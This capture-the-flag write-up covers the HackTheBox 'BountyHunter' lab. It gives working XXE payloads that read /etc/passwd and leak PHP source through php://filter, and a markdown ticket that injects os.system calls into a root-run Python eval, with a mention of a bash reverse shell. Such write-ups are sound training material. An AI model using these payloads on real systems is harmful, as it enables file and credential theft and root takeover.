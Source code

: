 # HackTheBox-BountyHunter


## NMAP

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## PORT 80 (HTTP)

<img src="https://i.imgur.com/WXwsvNp.png"/>

We can see this is just an html being used on the webserver , going to portal it says that it's under development

<img src="https://i.imgur.com/mOb05kS.png"/>

Which takes us to Bounty reporting system

<img src="https://i.imgur.com/mbhCBcw.png"/>

But when we submit details to the reporting system it just doesn't get saved

<img src="https://i.imgur.com/oeD6Zz4.png"/>

So here let's try to run `gobuster` and fuzz for files and directories

<img src="https://i.imgur.com/1MGFC3k.png"/>

We can't visit  `/assets` as it's forbidden for us

<img src="https://i.imgur.com/ft3x5Jx.png"/>

Checking the `/resources` folder we do see some files

<img src="https://i.imgur.com/9LFV3fb.png"/>

<img src="https://i.imgur.com/kw7Omg0.png"/>

From `README.txt` it seems that reporting system isn't connected to database also it says about disabling the test account maybe we can login somewhere but for now I don't think there's a login page.

Moving on and checking the the `bountylog.js` we can see a url which points to `tracker_diRbPr00f314.php`

<img src="https://i.imgur.com/BmtnQzh.png"/>

<img src="https://i.imgur.com/ON3oIfh.png"/>

So let's use `burp suite` and try intercepting that reporting system to see if it's actually sending data somewhere 

<img src="https://i.imgur.com/BunaoL8.png"/>

This is making a POST request to that page and sending the data as base64 encoded

<img src="https://i.imgur.com/IzubOeS.png"/>

So this means here we need to do what is called `XXE(XML Xternal Entity)`, what XXE basically allows us to read local files like `/etc/passwd` and sensitive files like php file's source code that the browser doesn't reveal we can steal some information that can be either passwords or some sensitive data . An application that parses XML input . we can add a variable which is called `Entity` that we define inside a `DTD` which is Document Type Definiation  which looks like this 

```xml
<!DOCTYPE arz  [Entity] >
```
The DOCTYPE declaration is where we declare elements, attributes, entities, and notations.


So in DTD we define an entity

```xml
<!ENTITY arz SYSTEM "file:///etc/passwd">
```
This is an external Entity as we are accessing something which isn't declared in the current xml and they are defined with `SYSTEM` keyword

If we combine this together it will look like this 

```xml
<!DOCTYPE test [<!ENTITY arz SYSTEM "file:///etc/passwd"> ]>
```

Now in this scenario our xml input looks like this 

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>SQLI</title>
		<cwe>IDK</cwe>
		<cvss>4.4</cvss>
		<reward>99</reward>
		</bugreport>
```

Including our XXE payload

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE test [<!ENTITY arz SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&arz;</title>
		<cwe>IDK</cwe>
		<cvss>4.4</cvss>
		<reward>99</reward>
		</bugreport>
```

Notice that `<title>&arz;</title>` this is the variable or the entity that we defined and we are calling that in `title` , so let's base64 encoded it and convert it to url encoding so it can be parsed 

<img src="https://i.imgur.com/P0EFSNp.png"/>

<img src="https://i.imgur.com/Uygm7IS.png"/>

And we have performed XXE and are successful in reading the `/etc/password` file means that we can access that `db.php` as well by using a php filter `php://filter/convert.base64-encode/resource=index.php` that converts the php page to base64 text form as php won't be able to parse base64 encoded text so it will output that page in base64 that we can decode it and see the whole source code


```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&example;</title>
		<cwe>IDK</cwe>
		<cvss>4.4</cvss>
		<reward>99</reward>
		</bugreport>
```

<img src="https://i.imgur.com/OQyJ2XN.png"/>

<img src="https://i.imgur.com/pEubdhV.png"/>

<img src="https://i.imgur.com/N32ehA1.png"/>

From `/etc/passwd` the only user that has a command shell `bash` is only `development` user so we can try this password through ssh

<img src="https://i.imgur.com/WFDC22G.png"/>

On doing `sudo -l` we can see that we are allowed to run a python script as root

<img src="https://i.imgur.com/vJc6GWX.png"/>

So to break down that python script it's going to first ask for the path of the markdown file `.md` file

<img src="https://i.imgur.com/FuBs9kS.png"/>

And it's going to run `load_file` function

<img src="https://i.imgur.com/VJk1b8t.png"/>

This function will check if the file is ending with markdown extension or not if ti is it's going to open that file and read it , then it's going to return the contents of the file to `evaluate` function

<img src="https://i.imgur.com/VJk1b8t.png"/>

The first part of this code will check if that markdown file starts with `# Skytrain Inc` if not it's going to return false and the program will end else it will continue

The scond part would check if the second line contains `## Ticket to` if not it's going to return false and will end the program else that will continue 

The third will check if the next line of markdown starts with `__Ticket Code:__` or not and will do the same as previously 

The fourth part of this function is important as it will only evaluate the file if those asteriks contain a number that on dividing with `7` it's remainder must be `4` also the number we have in those asteriks must be greate than 100 

Here this is going to split the txt on `+` that will make a list and it's going to take the first argument of that list

<img src="https://i.imgur.com/2ITZAwS.png"/>

Now this part is where we can do code injection

<img src="https://i.imgur.com/WcLPn48.png"/>

So first let's make our markdown file

```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**102**+__import__('os').system('whoami')
```

We have `102` which on dividing with `7` will give us the remainder `4` and after that we added `+`  and then importing os module to run the shell command `whoami`

So that eval function will have the value `102+__import__('os').system('whoami')` and during runtime it's going to import `os` module in python script and execute the command

<img src="https://i.imgur.com/jeWXljw.png"/>

So we can just replace `whoami` with bash reverse shell

<img src="https://i.imgur.com/BJbco92.png"/>

<img src="https://i.imgur.com/1dRZys0.png"/>

## References

https://research.cs.wisc.edu/mist/SoftwareSecurityCourse/Chapters/3_8_3-Code-Injections.pdf
